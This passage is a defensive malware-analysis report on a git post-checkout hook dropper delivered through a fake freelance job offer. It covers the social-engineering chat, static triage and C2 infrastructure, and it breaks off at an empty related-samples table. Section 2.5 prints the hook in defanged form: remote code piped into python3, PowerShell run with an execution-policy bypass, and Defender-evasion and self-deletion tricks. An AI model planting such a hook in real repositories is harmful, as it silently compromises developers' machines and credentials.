








# OliveBloom / Auralyx — Git-Hook Dropper Analysis

**Social-engineering delivery · Static triage of a weaponised git repository · Host compromise assessment**


> Analysis of a targeted malware lure delivered through a freelancing platform. A purported client
> offered a well-paid Flutter contract, sent a zipped "monorepo", and asked three times that the
> `plan` branch be checked out. That single command runs a hidden git hook which downloads and
> executes a remote payload. This repository documents the social-engineering delivery, the dropper,
> the supporting infrastructure, the evidence that the host was never compromised, and a controlled
> reproduction of the full execution chain in an isolated lab.

**Analyst:** Ali Mehdi Jafeeri · **Date:** November 2026

---

## ⚠️ Safety Notice

> [!WARNING]
> **This repository contains NO malware.**
>
> The lure archive, the extracted repository and any stage-2 payload are **not** published here.
> The dropper hook is included **only as a defanged text transcription**
> ([`evidence/post-checkout.defanged.txt`](evidence/post-checkout.defanged.txt)) that will not run as-is.
>
> All network indicators are **defanged** (`hxxps://`, `[.]`) and published for **defensive
> purposes only**. The C2 address is live attacker infrastructure: do not browse to it, and do
> not fetch it from a network you care about.

> [!NOTE]
> **Scope.** Phases 1–5 are complete: delivery, static triage, infrastructure intelligence, host
> assessment, and a controlled detonation of the real hook in an isolated lab. The attacker's own
> stage-2 payload was deliberately **not** retrieved from live infrastructure; its capability is
> characterised from the hook and public reporting (§5.5).
>
> Profile photos in the conversation screenshots are pixelated: the account appears to be a
> hijacked genuine developer profile, so the person pictured is treated as a likely victim.

---

## Table of Contents

- [Case at a Glance](#case-at-a-glance)
- [Executive Summary](#executive-summary)
- [Attack Flow](#attack-flow)
- [Laboratory Environment](#laboratory-environment)
- [Phase 1 — Delivery & Social Engineering](#phase-1--delivery--social-engineering)
- [Phase 2 — Static Triage](#phase-2--static-triage)
- [Phase 3 — Infrastructure & Threat Intelligence](#phase-3--infrastructure--threat-intelligence)
- [Phase 4 — Host Compromise Assessment](#phase-4--host-compromise-assessment)
- [Phase 5 — Dynamic Analysis & Stage-2 (Pending)](#phase-5--dynamic-analysis--stage-2-pending)
- [MITRE ATT&CK Mapping](#mitre-attck-mapping)
- [Indicators of Compromise](#indicators-of-compromise)
- [YARA Detection Rules](#yara-detection-rules)
- [Defensive Recommendations](#defensive-recommendations)
- [Analytical Takeaways](#analytical-takeaways)
- [References & Prior Work](#references--prior-work)
- [Repository Contents](#repository-contents)

---

## Case at a Glance

| | |
|---|---|
| **Sample** | `olivebloom.zip` (1,330,753 bytes): a zipped git repository |
| **Class** | Downloader / dropper: a git `post-checkout` hook that fetches and runs a remote stage-2 |
| **Delivery** | Direct message from a fake client on a freelancing platform, 2026-11-03 |
| **Trigger** | `git checkout plan`, a command the "client" asked for three times |
| **Platforms** | Windows (PowerShell stage-2), macOS and Linux (Python stage-2) |
| **C2** | `66.116.241[.]148` over HTTPS on a bare IP |
| **Campaign** | Not a one-off: the **byte-identical hook** and three sibling lure archives (`prismqiwave.zip`, `nexanacraft.zip`, `mesarelay.zip`) point at the same C2 |
| **Hook SHA-256** | `cf74c18d923250226a47dcef01a35e897f5a1e67724e2535fd6bc0f98ff89dbd` |
| **Victim impact** | None. The archive was never extracted and the host was proven clean |
| **Account status** | Project and profile removed by the platform (checked 2026-11-07) |
| **Status** | Complete: delivery, static triage, infrastructure intelligence, host assessment, and controlled detonation · attacker's stage-2 characterised, not retrieved |

---

## Executive Summary

OliveBloom is a **targeted downloader delivered through a fake job offer**. There is no exploit and
no binary. The weapon is a 1,928-byte shell script placed in `.git/hooks/post-checkout` inside a
zipped repository. Git runs that script automatically the moment the victim switches branch, and
the lure was built so that switching branch is the one thing the victim *had* to do.

### Key findings

| # | Finding |
|---|---|
| 1 | Delivered by a freelancing-platform account (12 years old, **0 reviews**) offering **$4,000–5,000/month** against a listing budget of $250–750. The same "for Ongoing Work" post was cloned across Flutter, Android and Web: trawling for developers, not hiring. |
| 2 | The archive is a real git repository with a **non-sample `post-checkout` hook**. `main` is nearly empty; all "requirements" live on `plan`, so `git checkout plan` is made *necessary*. The operator asked for that exact command **three times in six minutes**. |
| 3 | On Windows the hook fetches `hxxps://66.116.241[.]148/wtech/auralyx` with **Git's own signed `curl.exe`** into `%TEMP%\wtech_boot_<pid>.ps1` and runs it with `powershell -ExecutionPolicy Bypass -File`. On macOS/Linux it pipes `/dtech/auralyx` straight into `python3`. |
| 4 | The author's own comment explains an **evasion change**: Defender flagged `irm … \| iex` as `Trojan:Win32/Commando.A!ml`, so the kit switched to download-then-`-File`. |
| 5 | The hook **deletes itself** and **always exits 0**: checkout looks normal and the repo holds no trace afterwards. |
| 6 | The repository was **generated by a script** ("Challenge Bot <challenge@local>") 29 seconds before it was zipped and sent. Each victim likely receives a **unique archive**, which defeats hash lookups. |
| 7 | **It is a campaign.** The hook's SHA-256 matches a `post-checkout` uploaded to VirusTotal by someone else on 2026-11-06, and three more lure zips with the same generated naming pattern reference the same C2. The **repository is unique per victim; the hook is not**. |
| 8 | The C2 runs on a rented **Oracle Cloud** address geolocated to India, with **Let's Encrypt short-lived IP certificates** reissued since October. The certificate history shows an earlier activity window in **June 2026**. Server location says nothing about the operator's nationality (§3.4). |
| 9 | **No compromise.** The archive was read as text and never extracted. Two independent host hunts, including Prefetch, show `curl.exe` and `sh.exe` **never ran**: the only execution path never fired. |

> [!IMPORTANT]
> **The headline:** `git clone` never copies hooks, so a malicious hook can only arrive inside a
> shipped `.git/` folder: a zip, a tarball, a USB copy. *"Please check out this branch of the repo
> I zipped for you"* is the delivery mechanism. The defence is equally simple: read `.git/hooks/`
> as text before running **any** git command in a repository someone sent you.

---

## Attack Flow



The code is trivially readable. What makes this sample worth studying is the **process**: a
conversation engineered to produce one command, a repository generated per victim, and evasion
choices made specifically for developer workstations, where `git`, `curl` and `powershell` are all
expected and trusted.

---

## Laboratory Environment

Phases 1–4 required **no execution at all**, so they were done on the analyst workstation under a
strict text-only rule: the archive was listed and read in memory, never extracted, and `git` was
never pointed at it.

| Phase | Where | Method |
|---|---|---|
| 1–2 Triage | Workstation | `unzip -l` / `unzip -p` to stdout; git objects `zlib`-decoded in memory with [`tools/zip_git_objects.py`](tools/zip_git_objects.py) (`python -I`) |
| 3 Infrastructure | Workstation | Passive sources only (VirusTotal, RDAP/WHOIS, certificate history). The C2 itself was **never contacted** |
| 4 Host assessment | Workstation | Read-only PowerShell hunts ([`tools/host-hunt/`](tools/host-hunt/)) + Defender custom scans |
| 5 Dynamic | Isolated lab | See below |

For Phase 5 the sample was moved into an isolated two-VM lab:

| Host | Address | Role |
|---|---|---|
| Windows 10 (FLARE-VM) | `192.168.56.20` | Victim / detonation host |
| REMnux | `192.168.56.102` | Gateway, DNS sinkhole (dnsmasq), fake services (INetSim) |
| Network | `192.168.56.0/24` | VirtualBox **Host-Only**, no external route |

Shared folders, clipboard and drag-and-drop are disabled on the victim VM (verified with
`VBoxManage showvminfo`). The sample will **never** be detonated on a university or production network.

---

## Phase 1 — Delivery & Social Engineering

### 1.1 The bait listing

| Field | Value |
|---|---|
| Project | "Freelance Flutter Developer for Ongoing Work" |
| Budget | **$250–750** fixed (10 proposals, average $440) |
| Client | "Taimoor" (`@timimalik`), Lahore, member since **2014-10-04**, payment verified, **0 reviews** |
| Profile | "Mobile Application/Web Developer", $20/hour, Java · Kotlin · Flutter, 2 recommendations: a genuine-looking freelancer profile, not a client one |
| Status | Project and profile **removed by the platform** after reporting (checked 2026-11-07) |
| Other posts | "Freelance **Android** App Developer for Ongoing Work", "Freelance **Web** Developer for Ongoing Work" (same budget, same template) |

A generic description cloned across stacks is a **net for developers**. A 12-year-old *developer*
profile with zero reviews, suddenly posting jobs as a *client*, suggests a **bought or hijacked
account**. The person in the profile photo is most likely a victim too, so the photo is pixelated
in every screenshot and no identity claim is made here.

### 1.2 The conversation (2026-11-03, PKT)


*21:11. "Your profile came up as a recommendation from Freelancer." The offer: **$4,000–5,000/month**, 6–20× the listing.*


*21:20. Project "Auralyx". "Not just vibe coding" is an ego hook that sets up a test of skill. I shared my GitHub, which is now a likely post-compromise target.*


*21:24. The monorepo pitch explains in advance why the deliverable is a **repository** and not a PDF.*


*21:30–21:32. A task that requires opening the repo (estimate Phase 1), then `olivebloom.zip`.*


*21:33–21:34. **Trigger instructions 1 and 2:** "check out the 'plan' branch… not on the default branch". The second one pre-empts simply reading `main`.*


*21:36–21:39. Urgency and scarcity ("the only candidate"), then **trigger instruction 3**.*

| Time | Step | Technique |
|---|---|---|
| 21:11 | Flattery + false platform endorsement | Pretext |
| 21:18 | Pay 6–20× the listing | Greed / disbelief suspension |
| 21:20 | "Not just vibe coding" | Ego, sets up a review "test" |
| 21:24 | "Everything in one repo so Claude can read it" | Justifies the delivery format |
| 21:32 | `olivebloom.zip` | **Delivery** (built 29 s earlier, see §2.4) |
| 21:33, 21:34, 21:39 | "Check out the `plan` branch" ×3 | **Trigger** |
| 21:36 | "You are the only candidate" | Urgency + scarcity |

### 1.3 Red flags, ranked

1. **A specific git command requested repeatedly.** A real client says "read the docs". The operator only needed a checkout to happen.
2. **A repository sent as a zip, not a link.** Hooks are not transferred by `git clone`; shipping `.git/` is the only way to deliver one.
3. **Pay far above the listing.**
4. **Inconsistent identity:** Auralyx (chat), OliveBloom (repo), Argonz (docs). A "Flutter" job whose readme says "native iOS and Android client".
5. **Urgency and scarcity.**
6. **Account profile:** 0 reviews, cloned posts across stacks.

---

## Phase 2 — Static Triage

### 2.1 Method

Nothing was extracted or executed. `unzip -l` listed the archive, `unzip -p` printed text files to
stdout, and every loose git object was decompressed **in memory** to reconstruct commits, trees and
blobs. Git itself was never run, so no hook could fire.

### 2.2 Archive structure

`olivebloom.zip`: 1,330,753 bytes, 78 entries.

```
olivebloom/
├── readme.md            "Candidate need to checkout plan branch to see full requirement and Figma design"
├── backend/readme.md    "API, catalog, playback, and admin services…"
├── mobile/readme.md     "Native iOS and Android client…"
└── .git/
    ├── HEAD             ref: refs/heads/main
    ├── config           [user] name = Challenge Bot, email = challenge@local
    ├── refs/heads/main  38f51abb…
    ├── refs/heads/plan  ba8ea7f1…
    ├── logs/HEAD        reflog (§2.4)
    ├── objects/…        15 loose objects, no packfile
    └── hooks/
        ├── *.sample       14 stock samples, zip mtime 21:32
        └── post-checkout  ◄ 1,928 bytes, zip mtime 19:54, NOT a .sample
```

The working tree is on `main`, so the content on `plan` stays hidden until a checkout. **That is the
whole trick:** the lure content sits behind the trigger.

### 2.3 Git object map

| SHA-1 | Type | Content |
|---|---|---|
| `38f51abb120e398f1ae1552073d5d3d3a658dcef` | commit | `main`, "Initial commit" |
| `ba8ea7f135c6ef4c8a659c3ab4cc43ad5e39b00b` | commit | `plan`, parent `38f51abb`, "Add OliveBloom plan assets" |
| `f2a80f034a09b0aa7e7c29fab2efcc6bd87a2eaa` | tree | `main` root: `backend/`, `mobile/`, `readme.md` |
| `40eebcfb597889a14e34758baab8219db2c38a79` | tree | `plan` root: adds `design/`, `docs/` |
| `c1046930dbefca08e48337dd7a2fb31f12a488a7` | blob | `design/OliveBloom_phase1.fig`: 1,299,668 B, a real Figma archive (`canvas.fig`, `meta.json`, `thumbnail.png`, 3 images) |
| `64cee223c6002763673e8ee87a540ce92637ef0c` | blob | `docs/phase-1-features.md`: decoy PRD |
| `58ec39df8f63afe1927b13851557f6d8dfa58fd2` | blob | `docs/billing/revenuecat-credits.md`: decoy |
| `0ee750714970a0ea764ba85e458c0473a6bfc39f` | blob | `docs/policies/pricing-and-credits.md`: decoy |

**There is no code anywhere in the repository.** The only executable content is the hook. The decoy
documents ([`evidence/decoy/`](evidence/decoy/)) are polished product prose for "the Argonz mobile
app", an AI chat companion with RevenueCat credits. Leftovers such as "Publish Generations" and a
backend that does "playback" suggest the text was **reused from a different lure template**.

> Git object IDs are content hashes, so they remain valid indicators even without the archive's own
> hash: another victim's copy with the same decoy blobs will produce the same SHA-1s.

### 2.4 Timestamps: a per-victim, automated build

| Artefact | Time (PKT) | Meaning |
|---|---|---|
| `post-checkout` zip mtime | 19:54 | Hook is a pre-made template, copied in |
| Commit `38f51abb` | 21:32:19 | Repository created |
| Commit `ba8ea7f1` | 21:32:48 | `plan` built 29 s later, then `checkout main` |
| All other zip entries | 21:32 | Zipped immediately |
| Archive received | 21:32 | Sent the same minute |

The reflog reads `commit (initial)` → `checkout main→plan` → `commit` → `checkout plan→main`, all by
"Challenge Bot", with nothing in between. **That is a script, not a person.** Each target most likely
receives a freshly generated repository and therefore a **unique archive hash**.

Zip DOS timestamps are stored in the creator's local time; the entries say 21:32 while the commit
epochs say 16:32 UTC. The zipping host's clock was therefore set to **UTC+5**, which fits the listing's
location. Moderate confidence only: a clock can be set to anything. The commits record `+0000`, so the
commit step ran with `TZ=UTC` (container/CI-style).

### 2.5 The hook, line by line

Full defanged text: [`evidence/post-checkout.defanged.txt`](evidence/post-checkout.defanged.txt).

```sh
#!/bin/sh
case "$(uname -s)" in
  Darwin|Linux)
    curl -s hxxps://66.116.241[.]148/dtech/auralyx | python3
    ;;
  MINGW*|MSYS*|CYGWIN*|Windows_NT*)
    # Defender flags `irm ... | iex` on the process cmdline as Trojan:Win32/Commando.A!ml
    # (CreateProcess then surfaces as "Permission denied" under Git Bash).
    # Download to a temp file with Git's curl, then run via powershell -File.
    _url="hxxps://66.116.241[.]148/wtech/auralyx"
    _out="${TEMP:-/tmp}/wtech_boot_$$.ps1"
    ...
      "$_curl" -sL "$_url" -o "$_out" || exit 0
      ...
      powershell.exe -NoProfile -ExecutionPolicy Bypass -File "$_winout"
```

| Lines | What it does |
|---|---|
| `#!/bin/sh` | Git for Windows runs hooks through its bundled `sh.exe`, so a shell script works on Windows too |
| `case "$(uname -s)"` | OS router: one hook, three platforms |
| `Darwin\|Linux` | Fetches `/dtech/auralyx` and **pipes it into `python3`**; nothing touches disk |
| Author comments | The kit previously used `irm … \| iex`, which Defender detected from the **command line**; it moved to download-then-`-File` |
| `_out=…/wtech_boot_$$.ps1` | Temp file named with the shell PID |
| curl selection | Prefers **Git's own** `mingw64\bin\curl.exe`, a signed binary present on every Windows dev box |
| `curl -sL … \|\| exit 0` | Silent, follows redirects, and **exits 0 on failure** so the checkout still looks normal |
| `cygpath -w` | Converts the MSYS path for PowerShell |
| `powershell -NoProfile -ExecutionPolicy Bypass -File` | **Execution.** The script body never appears on the command line, which avoids command-line heuristics |
| `*)` fallback | Unrecognised `uname` (WSL edge cases, BusyBox): PowerShell route if available, else curl \| python3 |
| `git rev-parse --git-path hooks/post-checkout` + `rm -f` | **Self-deletion**, resolved through git so it also works with worktrees and custom `core.hooksPath` |
| `exit 0` | Checkout always "succeeds" |

Observations:

- **It runs synchronously.** `powershell … -File` is not backgrounded, so the checkout blocks until
  stage-2 returns. Stage-2 most likely spawns a detached process and exits quickly.
- **It leaves one artefact.** The hook deletes itself but **not** `wtech_boot_<pid>.ps1`, which is the
  best host indicator after the fact (confirmed at detonation, §5.2 — `wtech_boot_331.ps1` remained).
- **TLS on a bare IP.** `curl -s https://<IP>` without `-k` would fail on a self-signed certificate.
  **Resolved in Phase 3:** the server holds a publicly trusted **Let's Encrypt IP-address certificate**,
  so every platform path works without certificate errors.
- **No obfuscation at all.** The design relies entirely on nobody looking inside `.git/`.

### 2.6 Attacker's design rationale

| Choice | Why |
|---|---|
| Ship a zip, not a link | `git clone` never copies hooks. Only a shipped `.git/` can carry one |
| `post-checkout` hook | Fires on `git checkout` / `git switch`. The conversation supplies a reason to run it |
| Content hidden on `plan` | Makes the checkout necessary; `main` is empty by design |
| Decoy PRD + real `.fig` | Rewards the victim with plausible work so nothing feels wrong afterwards |
| Thin hook, remote stage-2 | Hook stays tiny and generic (low AV score); the payload can change server-side per victim or OS |
| Git's curl + `-File` | Trusted binaries only; avoids the `iex` detection the author hit before |
| Self-delete + `exit 0` | No error to notice, no file left in the repository |
| Developers as targets | Dev machines hold GitHub/SSH keys, cloud credentials, `.env` files, browser sessions, crypto wallets, and access to *their* clients |

---

## Phase 3 — Infrastructure & Threat Intelligence

All of this phase is **passive**: public VirusTotal records, RDAP/WHOIS and certificate history.
No request was ever sent to the C2 address.

### 3.1 The C2 host

| Field | Value |
|---|---|
| Address | `66.116.241[.]148` |
| Routing (2026-11-04) | **AS31898 Oracle Corporation**, prefix `66.116.224.0/19` → an **Oracle Cloud** instance |
| Routing (2026-11-07) | AS394695 (PDR), prefix `66.116.240.0/23`: the announcement **moved off Oracle** within three days |
| Registered block | `66.116.128.0/17`, netname `PDRSOLUTIONSFZC-AP`, **P.D.R Solutions FZC** (UAE), APNIC, registered 2023-07-05 |
| Lease marker | `remarks: OCITOKEN::66.116.192.0/23 …`: Oracle's bring-your-own-IP tokens, i.e. the registrant's space is leased into Oracle Cloud |
| Geolocation | IN (India) |
| VirusTotal verdict | **0 / 92** for the address itself |

The address belongs to a hosting registrar's block that is **leased into Oracle Cloud** and geolocates
to an Indian region. The routing change between 11-04 and 11-07 is consistent with the cloud instance
or the leased range being released, but that is **not confirmed**.

### 3.2 TLS certificates: short-lived and automated

| Field | Value |
|---|---|
| Issuer | Let's Encrypt, intermediate `YE2` |
| Subject Alternative Name | **`IP Address: 66.116.241[.]148`** (no domain at all) |
| Validity | 2026-10-30 20:53:07 → 2026-11-06 12:53:06 UTC: **160 hours**, Let's Encrypt's short-lived profile |
| Key | ECDSA P-256 |
| Serial / SHA-1 thumbprint | `5dfc37d1f50d55174156a659227df37e23` / `4bc74b6d3b5b56e4501ec6d0ef1980d57c4fb153` |
| JARM | `28d28d28d00028d00042d42d0000005a3e96c1dfa4bdb24b8b3c04cae18cc3` |

A 160-hour certificate has to be renewed every few days, so issuance is **scripted**. This also
answers the open question from §2.5: `curl` without `-k` succeeds because the certificate is
publicly trusted. VirusTotal's history for the address lists **11 certificates**, and their dates
fall into two windows:

| Window | Certificates first seen |
|---|---|
| **June 2026** | 06-03, 06-08, 06-17, 06-29 |
| **Oct–Nov 2026** | 10-18, 10-20, 10-23, 10-29, 10-30, 11-04 |

The lure arrived on **2026-11-03**, four days after the certificate shown above was issued.

### 3.3 Related samples: this is a campaign

VirusTotal links six files to the address. None of them was submitted by me.

| File | Size | SHA-256 | Detections |
|---|---|---|---|
